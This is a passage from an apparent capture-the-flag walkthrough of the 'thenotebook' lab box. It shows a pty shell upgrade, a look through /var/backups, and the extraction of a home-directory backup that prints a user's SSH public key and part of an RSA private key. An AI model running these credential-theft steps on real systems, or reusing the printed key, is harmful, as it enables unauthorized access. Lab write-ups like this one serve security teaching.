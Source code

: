 ```bash
www-data@thenotebook:~/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@thenotebook:~/html$
```

After a bit of local enumeration, we found `/var/backups`

```
www-data@thenotebook:/opt$ cd /var/
www-data@thenotebook:/var$ ls
backups  crash  local  log   opt  snap   tmp
cache    lib    lock   mail  run  spool  www
www-data@thenotebook:/var$ cd backups/
www-data@thenotebook:/var/backups$ ls
alternatives.tar.0        apt.extended_states.3.gz  group.bak    shadow.bak
apt.extended_states.0     dpkg.diversions.0         gshadow.bak
apt.extended_states.1.gz  dpkg.statoverride.0       home.tar.gz
apt.extended_states.2.gz  dpkg.status.0             passwd.bak

```

We noticed: `home.tar.gz`

This is archive's content:

```bash
www-data@thenotebook:/tmp$ tar xzvf home.tar.gz
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

So we have `noah` SSH keys:

```bash
www-data@thenotebook:/tmp$ cat home/noah/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKq5y/Po/8QRBt1/xwDjgaQSMJzdCcDKywQPeqr0/PUvEQ3TgduGEN8XEr4QNYrjKSTSDky8FByRzECzfWY2e75QKVgsxvhhca+uLAKu2sej+6XBOsvKapXPGMRstSQiCNk1bj0AHCLakN/OheeKP0kryzeKMij7D/RGofMB+BLdju35sdWjiS8gdPQhe94CK/F7PdSmK6UWRpDjOTfut8c7fC5NazJnS+YvuCvd9BEGd2tQO/iTbPB63Fg23SGN0sPID4oZYUV5bt7L3KeswpbaJza8G5wQBRR76ZvQRrM7aKeFetMBASBOts7uM2hkSl/gwNG3sNNDt1HP6Twcbj noah@thenotebook
```



```bash
www-data@thenotebook:/tmp$ cat home/noah/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
HVo4kvIHT0IXveAivxez3UpiulFkaQ4zk37rfHO3wuTWsyZ0vmL7gr3fQRBndrUD
v4k2zwetxYNt0hjdLDyA+KGWFFeW7ey9ynrMKW2ic2vBucEAUUe+mb0EazO2inhX
rTAQEgTrbO7jNoZEpf4MDRt7DTQ7dRz+k8HG4wIDAQABAoIBAQDIa0b51Ht84DbH
+UQY5+bRB8MHifGWr+4B6m1A7FcHViUwISPCODg6Gp5o3v55LuKxzPYPa/M0BBaf
Q9y29Nx7ce/JPGzAiKDGvH2JvaoF22qz9yQ5uOEzMMdpigS81snsV10gse1bQd4h
CA4ehjzUultDO7RPlDtbZCNxrhwpmBMjCjQna0R2TqPjEs4b7DT1Grs9O7d7pyNM
Um/rxjBx7AcbP+P7LBqLrnk7kCXeZXbi15Lc9uDUS2c3INeRPmbFl5d7OdlTbXce
YwHVJckFXyeVP6Qziu3yA3p6d+fhFCzWU3uzUKBL0GeJSARxISsvVRzXlHRBGU9V
AuyJ2O4JAoGBAO67RmkGsIAIww/DJ7fFRRK91dvQdeaFSmA7Xf5rhWFymZ/spj2/
```